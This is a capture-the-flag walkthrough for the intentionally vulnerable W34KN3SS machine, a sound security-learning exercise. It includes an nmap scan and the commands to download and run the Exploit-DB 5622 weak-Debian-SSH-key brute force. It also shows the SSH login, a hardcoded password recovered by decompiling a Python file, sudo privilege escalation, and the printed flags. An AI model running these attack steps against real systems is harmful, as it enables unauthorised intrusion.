# W34KN3SS: 1

### Nmap Scan

```bash
PORT    STATE SERVICE  REASON         VERSION
22/tcp  open  ssh      syn-ack ttl 64 OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 de:89:a2:de:45:e7:d6:3d:ef:e9:bd:b4:b6:68:ca:6d (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCvkgmVahuBlxM6WUy6NSEAmWnYQbfKfrHwxT0rlZleQQ6Hyjd435lLBiA1kSyHzYxQ2l2WhiXefSycEtI8FntMjnOEFahCgobvsP5HblaUGAxmh+RPId+/U0OPwbF8WEtE2aM7ynaJ3eJt02iyHoFSTICNNiwAMX1sde/ADI2zXkssrjerwyTJLrI5JO1girvHJcJxJWvS3HFHyZbksKK6giPy7E8Q6Uz0sp5p+Qx4iqZ9kHkwwLZ+Yk56BupHZDvjDWx9Pi8qhnlwgaqUj/RbG/eEylxRtqQn2i1A6TQrWMcMTpN+P25Ws9TPV8cRiDQwEX+bx30HHgc5AQ+YDRkf
|   256 1d:98:4a:db:a2:e0:cc:68:38:93:d0:52:2a:1a:aa:96 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBDyK5qz3tcYxvzJVZO2izBdS3LucZE0hUU4mOTja1WHO7Ma3plgqQoL52O+svarU9eHvf0sW5GqD02Bf+4ZQbWo=
|   256 3d:8a:6b:92:0d:ba:37:82:9e:c3:27:18:b6:01:cd:98 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIEOKeds8hqs+e9SnwnrnhhoV8IRh/CUlCgMmdTroLiuG

80/tcp  open  http     syn-ack ttl 64 Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works

443/tcp open  ssl/http syn-ack ttl 64 Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-title: Apache2 Ubuntu Default Page: It works
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
| ssl-cert: Subject: commonName=weakness.jth/organizationName=weakness.jth/stateOrProvinceName=Jordan/countryName=jo/localityName=Amman/emailAddress=n30@weakness.jth
| Issuer: commonName=weakness.jth/organizationName=weakness.jth/stateOrProvinceName=Jordan/countryName=jo/localityName=Amman/emailAddress=n30@weakness.jth
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2018-05-05T11:12:54
| Not valid after:  2019-05-05T11:12:54
| MD5:   f921:c4be:2c6e:89d6:adaf:a7c2:8f39:a87d
| SHA-1: 0b44:5a28:c4da:0bf8:b308:a782:4081:1218:101e:0feb
```

---

### Website



- There is a host name on nmap scan → `weakness.jth`
- save this to /etc/hosts

> **Note: The SSL certificate is issued for weakness.jth. If this hostname is not added to your /etc/hosts file, your browser may resolve to a different website that is not vulnerable, leading to confusion during the assessment.**
> 



---

### Hidden Directory

```
/private
/robots.txt
/index.html                 
```

---

### Getting SSH Access

- There is a `private` directory.



- Hiidden dir has → `notes.txt`

```
this key was generated by openssl 0.9.8c-1
```

- Here the → `openssl 0.9.8c-1` is vulnerable.
- After Google Search we got exploit



> **Steps To Execute This Payload:**
> 



1. Download the compressed file 

```bash
 wget https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/raw/main/bin-sploits/5622.tar.bz2
```

1. decompress the file 

```bash
tar -xvjf 5622.tar.bz2 
```

1. Execute python script 

```bash
python2 exploit.py ../SSH/rsa/2048 10.176.154.122 n30 22 5
```

- Update the path `/SSH/rsa/2048` to match the location where you extracted the files.

> **NOTE: This script take some time**
> 



---

### SSH Login

```bash
ssh -ln30 -p22 -i ../SSH/rsa/2048/4161de56829de2fe64b9055711f531c1-2537 10.176.154.122
```



- **User Flag:**



```
25e3cd6
```

---

### Privilege Escalation

- There is a Python script located in the home directory with read, write, and execute permissions.
- And also there is a duplicate of this script, with the same permissions, also exists in the `/opt` directory i



- Start python server and in target machine and get a `code` file in own machine

```bash
python3 -m http.server 8080
```

```bash
wget http://IP:8080/code
```





- Let’s decompile this python script
- **Ensure that the file extension is changed to `.pyc`**

> **Decompile Link → https://www.decompiler.com/**
> 



```python
# uncompyle6 version 3.9.0
# Python bytecode version base 2.7 (62211)
# Decompiled from: Python 3.8.10 (default, Nov 22 2023, 10:22:35) 
# [GCC 9.4.0]
# Embedded file name: code.py
# Compiled at: 2018-05-08 17:50:54
import os, socket, time, hashlib
print ('[+]System Started at : {0}').format(time.ctime())
print '[+]This binary should generate unique hash for the hardcoded login info'
print '[+]Generating the hash ..'
inf = ''
inf += chr(ord('n'))
inf += chr(ord('3'))
inf += chr(ord('0'))
inf += chr(ord(':'))
inf += chr(ord('d'))
inf += chr(ord('M'))
inf += chr(ord('A'))
inf += chr(ord('S'))
inf += chr(ord('D'))
inf += chr(ord('N'))
inf += chr(ord('B'))
inf += chr(ord('!'))
inf += chr(ord('!'))
inf += chr(ord('#'))
inf += chr(ord('B'))
inf += chr(ord('!'))
inf += chr(ord('#'))
inf += chr(ord('!'))
inf += chr(ord('#'))
inf += chr(ord('3'))
inf += chr(ord('3'))
hashf = hashlib.sha256(inf + time.ctime()).hexdigest()
print ('[+]Your new hash is : {0}').format(hashf)
print '[+]Done'
```

- In this python script there is a password for n30 user → `dMASDNB!!#B!#!#33`

> **Password: dMASDNB!!#B!#!#33**
> 

```
username = n30 
password = dMASDNB!!#B!#!#33
```

- User n30 can run all commands with sudo (sudo access to ALL).

```bash
sudo -l
```



- **ROOT ACCESS:**

```bash
sudo su 
```



- Root Flag

```
a1d2fab76ec6af9b651d4053171e042e
```